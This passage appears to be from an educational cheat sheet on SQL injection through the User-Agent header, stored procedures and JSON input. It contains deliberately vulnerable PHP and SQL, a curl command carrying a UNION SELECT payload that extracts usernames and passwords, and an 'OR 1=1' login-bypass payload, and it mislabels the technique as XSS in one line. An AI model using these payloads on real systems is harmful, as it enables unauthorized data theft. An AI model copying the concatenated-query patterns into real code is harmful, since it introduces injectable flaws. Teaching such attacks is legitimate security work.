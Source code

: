 # Header injection
Some applications will use the `User-Agent` field to track the user. If they do not sanitize this is a great area to store XSS.

Vulnerable code:
```php
$agent = $_SERVER['HTTP_USER_AGENT'];
$sql = "INSERT INTO (user_agent) VALUES ('$agent')";
```

Exploit:
```sh
curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://10.10.10.10/home
```

## Stored Procedures
Improve performance and consistency by pre-defining the queries. If they are not sanitized they pose the same risk:

```sql
CREATE PROCEDURE get_user_data
    @username NVARCHAR(50)
AS
BEGIN
    DECLARE @sql NVARCHAR(4000)
    SET @sql = 'SELECT * FROM users WHERE username = ''' + @username + ''''
    EXEC(@sql)
END
```

## XML & JSON
Any application that parses XML or JSON data and then queries it:
```json
{
    "username": "admin' OR '1'='1--",
    "password": "password"
}
```
